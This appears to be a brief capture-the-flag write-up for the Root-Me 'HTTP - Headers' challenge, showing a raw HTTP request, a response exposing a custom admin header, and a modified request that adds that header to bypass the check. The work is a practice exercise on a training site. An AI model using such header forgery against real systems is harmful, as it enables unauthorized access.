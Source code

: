 # HTTP - Headers

Request

GET /web-serveur/ch5/ HTTP/1.1 Host: challenge01.root-me.org User-Agent: Mozilla/5.0 (X11; Linux x86\_64; rv:91.0) Gecko/20100101 Firefox/91.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Connection: close Cookie: \_ga\_SRYSKX09J7=GS1.1.1661131878.13.1.1661135774.0.0.0; \_ga=GA1.1.536088429.1661133467 Upgrade-Insecure-Requests: 1 Cache-Control: max-age=0

***

Response

HTTP/1.1 200 OK Server: nginx Date: Mon, 22 Aug 2022 02:49:42 GMT Content-Type: text/html; charset=UTF-8 Connection: close Vary: Accept-Encoding Header-RootMe-Admin: none Content-Length: 272

Content is not the only part of an HTTP response!

***

then Requset modified

GET /web-serveur/ch5/ HTTP/1.1 Host: challenge01.root-me.org User-Agent: Mozilla/5.0 (X11; Linux x86\_64; rv:91.0) Gecko/20100101 Firefox/91.0 Header-RootMe-Admin: aa Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,_/_;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate Connection: close Cookie: \_ga\_SRYSKX09J7=GS1.1.1661131878.13.1.1661135774.0.0.0; \_ga=GA1.1.536088429.1661133467 Upgrade-Insecure-Requests: 1 Cache-Control: max-age=0
